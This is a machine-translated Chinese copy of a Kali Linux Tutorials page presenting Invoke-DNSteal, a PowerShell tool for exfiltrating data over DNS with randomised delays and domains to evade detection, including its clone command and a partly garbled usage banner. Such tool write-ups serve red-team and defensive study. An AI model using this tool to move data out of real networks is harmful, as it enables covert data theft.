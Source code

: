 # Invoke-DNSteal:简单且可定制的 DNS 数据过滤程序

> 原文：<https://kalilinuxtutorials.com/invoke-dnsteal/>

[![Invoke-DNSteal : Simple And Customizable DNS Data Exfiltrator](img//c2d511b19222391cec04e5313ad0946f.png "Invoke-DNSteal : Simple And Customizable DNS Data Exfiltrator")](https://1.bp.blogspot.com/-DDe3dBUNlIU/YOE6uCu7tBI/AAAAAAAAJ0M/Gz8n2Ny1Z7YLxDyX2p49DMaRmQ_UFkirQCLcBGAsYHQ/s608/Invoke-DNSteal%2B%25281%2529.png)

**Invoke-DNSteal** 是一个简单的&可定制的 DNS 数据过滤器。

该工具帮助您通过 UDP 和 TCP 上的 DNS 协议来过滤数据，并允许您使用随机延迟来控制查询的大小。此外，允许您通过在每个查询中使用随机域来避免检测，并且您可以使用它在本地和远程传输信息。

**要求**

*   Powershell 4.0 或更高版本
*   Python 2

**下载**

建议克隆完整的存储库或下载 zip 文件。您可以通过运行以下命令来实现这一点:

**git 克隆 https://github.com/JoelGMSec/Invoke-DNSteal.git**

**用途**

**。\ Invoke-dn steal . PS1-h
_ _*_ _ _ _ _ _*_
| _*|*|*_**_ _*|*_ _*| _ | \ |/*| | ^ _ ^ _ ^ _ ^ _ ^ _ ^ _ ^ |/_ _ _*| | | |/_ ^ _ ^/*' | | ^ _ ^ _ ^ _ ^ v/(*)|</*| |*| | | | \ |*)| |/(*| | |
|*| | | | _/_ _ _/|*| _ |*_/_*_ | _ _， *|* |**

**————————by @ joelmsec——————————**

**Info:这个工具帮助你通过 DNS 协议
过滤数据，并让你使用随机延迟
控制查询的大小用法:。\ Invoke-dn steal . PS1-t Target-p Payload-l length
-s Server-tcponly true/false-Min 3000-Max 5000
参数:
Target:要过滤数据的域目标
Payload:要通过 DNS 块发送的有效负载
length:控制数据大小的有效负载长度
Server:用于解析 DNS 查询的自定义服务器
TcpOnly:将 TcpOnly 设置为 true 或 false
Delay Min:要执行的最小延迟时间 ms
Random:使用随机域名以避免检测**
警告:长度(有效负载大小)必须在 4 到 240 之间
处理时间将根据数据大小而增加
